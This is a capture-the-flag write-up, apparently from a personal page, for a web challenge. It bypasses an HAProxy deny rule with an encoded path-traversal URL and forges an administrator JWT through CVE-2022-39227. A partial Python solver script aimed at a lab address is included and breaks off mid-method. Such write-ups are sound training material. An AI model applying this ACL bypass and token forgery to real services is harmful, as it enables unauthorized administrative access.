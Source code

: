 ``` sh
frontend haproxy
    bind 0.0.0.0:1337
    default_backend backend

    http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```

In the routes.py API file, the flag can be obtained with GET requests to the /api/v1/flag endpoint. However, a JWT with an administrator role is required:

``` python
@api_blueprint.route('/flag', methods=['GET'])
@authorize_roles(['administrator'])
def flag():
    return jsonify({'message': current_app.config.get('FLAG')}), 200
```

To obtain the JWT token, you need to make GET requests to the /api/v1/get_ticket endpoint, and you will receive a JWT token with a payload role as a guest:

``` python
@api_blueprint.route('/get_ticket', methods=['GET'])
def get_ticket():

    claims = {
        "role": "guest", 
        "user": "guest_user"
    }
    
    token = jwt.generate_jwt(claims, current_app.config.get('JWT_SECRET_KEY'), 'PS256', datetime.timedelta(minutes=60))
    return jsonify({'ticket: ': token})
```

The exploitation flow to obtain the flag is as follows:
1. Generate a JWT Token with access to /api/v1/get_ticket, bypassing haproxy with /api/v1/../v1/get_ticket
2. JWT Token forgery with CVE-2022-39227 to change the role to administrator
3. Access the /api/v1/flag endpoint

Here is the solver:

``` python
import requests
import json
import subprocess

URL = "http://94.237.57.155:36254"

class Exploit:
	def __init__(self, url=URL):
		self.url = url

	def generateToken(self):
		req = requests.get(self.url + "/api/v1/%2e%2e/v1/get_ticket")
		data = json.loads(req.text)

		return data["ticket: "]

	def tokenForge(self):
		exp = subprocess.check_output([f"python3 CVE-2022-39227/cve_2022_39227.py -j {self.generateToken()} -i 'role=administrator'"],shell=True).decode()
		data = exp.split("\n\n")[1].split("\n")[1]
		
		return data

	def getFlag(self):
```

[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn